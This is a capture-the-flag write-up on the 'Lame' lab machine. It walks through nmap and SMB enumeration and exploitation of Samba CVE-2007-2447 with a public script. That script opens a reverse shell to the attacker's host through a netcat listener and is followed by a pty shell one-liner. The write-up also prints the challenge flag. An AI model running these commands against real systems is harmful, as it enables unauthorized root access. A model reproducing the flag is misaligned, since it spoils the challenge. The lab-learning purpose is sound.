 # Lame
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, run nmap to the machine's host, so we can see all open ports and the service's running.

```sh
nmap -p- -sV -O -sVC 10.10.10.3
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210200834-fd61ad0f-e57d-4c34-af0c-663fc0e4ce31.png)

![image](https://user-images.githubusercontent.com/70703371/210200847-3663931c-6d30-429b-adde-26fe9fe58565.png)


2. Notice there's 2 ports that might be running some type of network shares. Not only that, we're allowed to login in ftp as anonymous.

![image](https://user-images.githubusercontent.com/70703371/210200591-280e0c35-7e9a-450f-b3cd-b5c7f448ff71.png)


![image](https://user-images.githubusercontent.com/70703371/210200876-cff53d63-2281-4b0f-a3e6-21591c5f1b3a.png)


3. Now let's login with ftp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210200952-d0d2836b-dd36-4f60-8059-bb07a61edbe1.png)


4. Let's check are there any files or directories.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210201004-e1acce9b-8363-4406-9b9b-31b33d1c3fd4.png)


5. Got nothing.
6. Now let's do SMB enumeration.

```sh
smbmap -H 10.10.10.3
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210201182-4a75571d-55ba-4bc2-a37b-9ddd8ec454d4.png)


7. Notice there's 2 different directories than the others -> tmp, opt (doesn't have any dollar sign).

![image](https://user-images.githubusercontent.com/70703371/210201218-80dff691-4b63-47a0-9a08-9f84e40c5de4.png)

#### NOTES: 

```
tmp and opt doesn't have any dollar sign, means it can be accessed by regular use privileges.
```

8. Since only **tmp** directory with permissions to read and write, means **tmp** shall be our interest now. But the problem is we don't have any user credentials for this tmp directory.
9. Even though it's open here, but still we need user credentials to login to it.
10. Now let's use **search split** to potentially see if there's an exploit associated with the service version of samba that's running on this machine.

> RESULT

```sh
searchsploit samba 3.0.2
```

![image](https://user-images.githubusercontent.com/70703371/210201595-fb83c002-b0ef-4450-a9ca-d9d777b80f2e.png)


11. Based from the first output.

![image](https://user-images.githubusercontent.com/70703371/210201674-557895a0-5f71-4919-a613-913b2c2829ab.png)


12. We can use metasploit, but let's not use that tools, we want to dive in manually, let's start by find where this exploit stored on our kali linux (THE CVE NUMBER).

![image](https://user-images.githubusercontent.com/70703371/210201783-447f9a3f-ff63-4905-a77a-8a4a93f8e7f3.png)


> RESULT

```sh
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb | grep CVE
```

![image](https://user-images.githubusercontent.com/70703371/210201888-d40c6da4-5683-446c-bdab-5fb2e9b36b70.png)


13. Let's jump to the url given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202094-58193400-1969-4846-ba75-b43b2eaf6987.png)


![image](https://user-images.githubusercontent.com/70703371/210202106-36e7a9a7-e101-4d3e-8306-c9ea0ec6c3a1.png)


14. Based on the samba documentation, we know that there's a configuration option which is not enabled by default and it can lead to RCE.
15. Anyway when searched the CVE number at google, i found this github repository.

```
https://github.com/amriunix/CVE-2007-2447
```

16. Before run the script, run `nc -nlvp 4444` so we can grab the reverse shell spawned by listening.
17. Next run this payload:

```
python3 usermap_script.py 10.10.10.3 139 10.10.14.4 4444
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202810-dc68003d-953e-4ade-ad7c-8a4d57f403de.png)

![image](https://user-images.githubusercontent.com/70703371/210202839-b54d45dc-40ab-4f66-8bbe-0d0abc4bd771.png)


18. Let's type `id` and `whoami`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202885-0ff156e9-eb89-4857-8a95-375a6e938860.png)


19. We are `root`, that's great! We don't need privilege escalation then to solve this challenge.
20. The next thing to do now is to stabilize our shell first.
21. Let's run this python command:

```py
python -c 'import pty; pty.spawn("/bin/sh")'
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203099-50b7ad5d-dd42-46f0-9ee5-0f330c2b35e1.png)

22. Now let's list all files or directories inside the machine.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203135-4c5a55f4-24f9-4c9a-81af-d1f8d599c867.png)


23. Jump to the `root` directory. 

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/210203191-594dfec1-aa54-4783-8411-fb170e3235df.png)


24. Cat the root.txt file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203213-d3ee001a-3cc3-4de6-ba2e-151a4670eef3.png)


25. Got the flag!

## FLAG

```
46b24a994e2c264192df7f7c060f1fdd
```




